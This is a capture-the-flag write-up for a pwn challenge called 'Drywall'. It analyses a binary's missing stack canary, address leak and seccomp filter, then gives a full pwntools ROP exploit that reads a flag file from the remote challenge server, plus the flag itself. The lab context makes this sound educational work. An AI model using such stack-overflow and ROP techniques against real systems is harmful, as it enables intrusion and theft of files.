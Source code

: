https://ctftime.org/event/2579

# Drywall (pwn)

My code is so secure! I have so many security measures! Its like a brick wall! I love security! Maybe I'll add more security to it later!

nc drywall.kctf-453514-codelab.kctf.cloud 1337

## Analysis

We can see the the provided binary doesn't appear to have stack canaries although it is compiled with -pie:

```bash
Arch:     amd64-64-little
RELRO:    Full RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      PIE enabled
```

`main` @ `0x11a3`:

- Installs a seccomp filter
- `printf("%p\n", main)`
    - This lets us bypass ASLR on the main elf image.
- `fgets(local_118, 0x256, stdin)`
    - Note that there is no canary so this gives us about 300 bytes after the return address to rop with.

We can dump the secccomp filter as follows:

```bash
$ seccomp-tools dump ./chal
 line  CODE  JT   JF      K
=================================
 0000: 0x20 0x00 0x00 0x00000004  A = arch
 0001: 0x15 0x00 0x0b 0xc000003e  if (A != ARCH_X86_64) goto 0013
 0002: 0x20 0x00 0x00 0x00000000  A = sys_number
 0003: 0x35 0x00 0x01 0x40000000  if (A < 0x40000000) goto 0005
 0004: 0x15 0x00 0x08 0xffffffff  if (A != 0xffffffff) goto 0013
 0005: 0x15 0x07 0x00 0x00000002  if (A == open) goto 0013
 0006: 0x15 0x06 0x00 0x00000013  if (A == readv) goto 0013
 0007: 0x15 0x05 0x00 0x00000014  if (A == writev) goto 0013
 0008: 0x15 0x04 0x00 0x0000003b  if (A == execve) goto 0013
 0009: 0x15 0x03 0x00 0x00000136  if (A == process_vm_readv) goto 0013
 0010: 0x15 0x02 0x00 0x00000137  if (A == process_vm_writev) goto 0013
 0011: 0x15 0x01 0x00 0x00000142  if (A == execveat) goto 0013
 0012: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0013: 0x06 0x00 0x00 0x00000000  return KILL
```

This leaves us with `openat`, `read` and `write` which is plenty to read the contents of the flag.

We can see from the provided Dockerfile that the flag can be found at `/home/user/flag.txt`.

```Docker
COPY flag.txt /home/user/
```

## Solution

1) Read the leak of the address of `main` to bypass ASLR on the main elf image
2) Read the flag's filename from stdin to a location in .bss using a read syscall
3) Open, with `openat` due to the filter, the flag into fd 3
4) ret2main because ~300 bytes isn't quite large enough for the full payload in a single pass
5) Read the flag's contents to a location in .bss using a read syscall
6) Write the flag's contents to stdout from a location in .bss using a write syscall

```python
#!/usr/bin/env python3

from pwn import *

#context.log_level = "debug"
elf = ELF("./chal", checksec=True)
context.binary = elf

#p = elf.process()
#p = elf.debug(gdbscript="b main")
p = remote("drywall.kctf-453514-codelab.kctf.cloud", 1337)

p.sendlineafter(b"H4x0r?\n", b"smiley")
p.readuntil(b";)\n")

leak = int(p.readline().decode(), 16)
elf.address = leak - elf.sym["main"]

FLAG = b"/home/user/flag.txt\x00"
SCRATCH_MEMORY = elf.address + 0x4200
FLAG_SIZE = 48

rop = ROP(elf)
rop.raw(b"A" * 0x118)

# read(0, SCRATCH_MEMORY, 128)
rop.rdi = 0
rop.rsi = SCRATCH_MEMORY
rop.rdx = 128
rop.rax = constants.SYS_read
rop.raw(rop.find_gadget(['syscall', 'ret'])[0])

# openat(-1, SCRATCH_MEMORY, O_RDONLY) => 3
rop.rdi = -1
rop.rsi = SCRATCH_MEMORY
rop.rdx = 0
rop.rax = constants.SYS_openat
rop.raw(rop.find_gadget(['syscall', 'ret'])[0])

# note: that i couldn't quite fit a payload with 4x syscalls into ~300 bytes
# ... so i split it into 2x ropchains with a ret2main in the middle

rop.raw(rop.find_gadget(['ret'])[0]) # stack align
rop.raw(p64(elf.sym["main"]))

p.sendline(rop.chain())

p.sendline(FLAG)

# ... wanna see me do it again?

p.sendlineafter(b"H4x0r?\n", b"smiley")
p.readuntil(b";)\n")

rop = ROP(elf)
rop.raw(b"A" * 0x118)

# read(3, SCRATCH_MEMORY, FLAG_SIZE)
rop.rdi = 3
rop.rsi = SCRATCH_MEMORY
rop.rdx = FLAG_SIZE
rop.rax = constants.SYS_read
rop.raw(rop.find_gadget(['syscall', 'ret'])[0])

# write(stdout, SCRATCH_MEMORY, FLAG_SIZE)
rop.rdi = 1
rop.rsi = SCRATCH_MEMORY
rop.rdx = FLAG_SIZE
rop.rax = constants.SYS_write
rop.raw(rop.find_gadget(['syscall', 'ret'])[0])

p.sendline(rop.chain())

p.readuntil(b"wctf{")
print("wctf{" + p.readuntil(b"}").decode()) # wctf{fL1m5y_w4LL5_br34k_f4r_7h3_31337_459827349}
```

## Flag
`wctf{fL1m5y_w4LL5_br34k_f4r_7h3_31337_459827349}`

smiley 2025/03/22
